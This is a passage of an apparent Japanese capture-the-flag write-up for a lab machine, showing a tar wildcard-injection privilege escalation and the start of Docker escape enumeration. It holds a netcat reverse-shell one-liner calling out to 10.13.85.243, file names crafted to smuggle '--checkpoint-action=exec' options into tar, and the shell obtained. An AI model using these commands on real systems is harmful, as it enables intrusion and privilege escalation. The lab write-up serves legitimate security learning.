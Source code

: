 ファイル名を tar コマンドのオプションのように見せかけるテクニック。

```sh
jake@the-marketplace:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.85.243 8888 >/tmp/f" > shell.sh

jake@the-marketplace:~$ touch "/home/jake/--checkpoint-action=exec=sh shell.sh"

jake@the-marketplace:~$ touch "/home/jake/--checkpoint=1"

jake@the-marketplace:~$ ls -al
（抜粋）
-rw-rw-r-- 1 jake jake    0 Jun 18 05:19 '--checkpoint=1'
-rw-rw-r-- 1 jake jake    0 Jun 18 05:19 '--checkpoint-action=exec=sh shell.sh'
-rw-rw-r-- 1 jake jake   80 Jun 18 05:19  shell.sh
```

エクスプロイト

```sh
ake@the-marketplace:~$ sudo -u michael /opt/backups/backup.sh
Backing up files...
tar: user.txt: Cannot open: Permission denied
rm: cannot remove '/tmp/f': No such file or directory
```

リバースシェル取得成功

```sh
$ nc -nlvp 8888
listening on [any] 8888 ...
connect to [10.13.85.243] from (UNKNOWN) [10.10.116.157] 34358
$ id
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

## Docker エスケープ

docker。cap_sys_admin などが付いている。

```sh
michael@the-marketplace:~$ docker ps
CONTAINER ID        IMAGE                        COMMAND                  CREATED             STATUS              PORTS                     NAMES
49ecb0cfeba8        nginx                        "/docker-entrypoint.…"   4 years ago         Up About an hour    0.0.0.0:80->80/tcp        themarketplace_nginx_1
3c6f21da8043        themarketplace_marketplace   "bash ./start.sh"        4 years ago         Up About an hour    0.0.0.0:32768->3000/tcp   themarketplace_marketplace_1
59c54f4d0f0c        mysql                        "docker-entrypoint.s…"   4 years ago         Up About an hour    3306/tcp, 33060/tcp       themarketplace_db_1

michael@the-marketplace:~$ capsh --print
Current: =
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=1002(michael)
gid=1002(michael)
groups=999(docker),1002(michael)
```
